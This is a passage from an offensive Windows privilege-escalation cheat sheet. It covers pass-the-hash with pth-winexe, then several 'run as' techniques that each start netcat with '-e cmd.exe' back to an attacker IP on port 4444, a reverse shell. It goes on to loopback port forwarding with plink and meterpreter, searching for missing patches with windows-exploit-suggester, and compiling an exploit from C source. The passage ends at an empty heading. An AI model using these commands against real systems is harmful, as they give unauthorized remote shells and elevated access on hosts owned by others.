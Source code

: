     export SMBHASH=xxx
    $ pth-winexe -U user%  //$ip cmd

You can also do run as, with the hash:

Technique 1:

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

Technique 2:

    $ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
    $ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    $ computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

    $ powershell -ExecutionPolicy Bypass -File c:\users\public\r.ps1

Technique 3:

    $ psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc <attacker_ip> 4444 -e cmd.exe"

## EoP 5: Services only available from loopback

You can find services bind to the loopback interface that are not reachable through the network running.look for **LISTENING/LISTEN**:

    netstat -ano

Port forward using plink

    $ plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

Port forward using meterpreter

    $ portfwd add -l <attacker port> -p <victim port> -r <victim ip>
    portfwd add -l 3306 -p 3306 -r 192.168.1.101

If powershell is blocked, you can download:

    https://github.com/Ben0xA/nps

Once you know the updates installed, you can find known exploits using windows-exploit-suggester.

    $ ./windows-exploit-suggester.py -d 2017-02-09-mssb.xls -p ms16-075
    [*] initiating winsploit version 3.2…
    [*] database file detected as xls or xlsx based on extension
    [*] searching all kb’s for bulletin id MS16-075
    [+] relevant kbs [‘3164038’, ‘3163018’, ‘3163017’, ‘3161561’]
    [*] done

Compile windows exploit in linux:

    $ i686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe

Compiling python scripts to executables:
